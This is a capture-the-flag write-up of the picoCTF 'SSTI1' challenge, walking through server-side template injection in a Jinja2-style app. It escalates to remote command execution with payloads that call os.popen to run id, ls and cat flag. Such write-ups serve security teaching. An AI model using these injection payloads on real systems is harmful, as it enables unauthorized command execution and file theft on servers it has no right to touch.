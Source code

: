 # 🌐 The SSTI1 Challenge 🚩

<img src="https://komarev.com/ghpvc/?username=CTF-isaka&label=Bookmarklet&color=0e75b6&style=flat" align="center" alt="since 19 March, 2025" />

## **Challenge Overview**
The SSTI1 challenge focuses on **Server-Side Template Injection (SSTI)**, a vulnerability that allows attackers to inject and execute arbitrary code on a server through improperly sanitized template engine input.

### **Challenge Screenshot:**

![image](https://github.com/user-attachments/assets/ffb5ca8c-b4b5-479b-995a-a530e43f2542)

---

## **Additional Information**

### **Hints:**
1. The vulnerability revolves around **Server-Side Template Injection (SSTI)**.
2. The input field reflects user input dynamically in a rendered template, making it susceptible to SSTI attacks.

### **Links:**
- http://rescued-float.picoctf.net:57180

---

## **Steps to Solve the Challenge**

### **Step 1: Understanding the Input Mechanism**
After exploring the challenge, we realize that we can input data into a form, and later see the **announcement** of what we entered.

**Example:**
![image](https://github.com/user-attachments/assets/cb960175-dd76-4e5a-9bce-ca20899f1237)
![image](https://github.com/user-attachments/assets/7bb9df3d-0f82-44b3-834e-1592a72aaaf1)


This suggests that the server processes our input and renders it within a template.

---

### **Step 2: Testing for SSTI Vulnerability**

SSTI occurs when user input is **dynamically evaluated by the template engine** without proper sanitization. 

To check if SSTI exists, we test by injecting:
```
{{ 7 + 7 }}
```

If the application is vulnerable, we should see **14** in the response.

![image](https://github.com/user-attachments/assets/84c7e967-92eb-4577-a2be-62b38464ac03)


✅ **Result:** After submitting `{{7+7}}`, the output displays `14`, confirming that the application is vulnerable to SSTI.

---

### **Step 3: Testing for Remote Code Execution (RCE)**

Since SSTI exists, we escalate to **Remote Code Execution (RCE)** to check if we can run system commands.

We inject:
```
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read() }}
```

![image](https://github.com/user-attachments/assets/9076f1b6-61c4-41d0-a74f-5b041af0f338)

✅ **Result:** The output displays the user information, confirming that we can execute system commands.

---

### **Step 4: Exploring the Server Filesystem**
Now that we have command execution, we attempt to **list the directory contents** to locate the flag file:
```
{{ config.__class__.__init__.__globals__['os'].popen('ls').read() }}
```

![image](https://github.com/user-attachments/assets/b9571a4a-c991-414c-81d0-2657d0dab1ec)

✅ **Result:** The server lists its contents, revealing a file named **flag**.

---

### **Step 5: Reading the Flag**
Now that we have located the flag file, we extract its contents:
```
{{ config.__class__.__init__.__globals__['os'].popen('cat flag').read() }}
```

✅ **Result:** The flag is displayed! 🎉

---

## **Conclusion**
This challenge demonstrates how **unsanitized input in template engines** can lead to **SSTI vulnerabilities**, escalating to **RCE and full server compromise**.

### **Key Takeaways:**
✅ **SSTI occurs when user input is rendered in a server-side template.**  
✅ **Testing simple expressions (e.g., `{{7+7}}`) helps confirm SSTI.**  
✅ **RCE can be achieved by injecting system commands through Python's `os` module.**  
✅ **With RCE, we can explore the filesystem, locate, and read the flag.**  

---

🎯 **You’ve successfully completed the SSTI1 Challenge!** 🏆
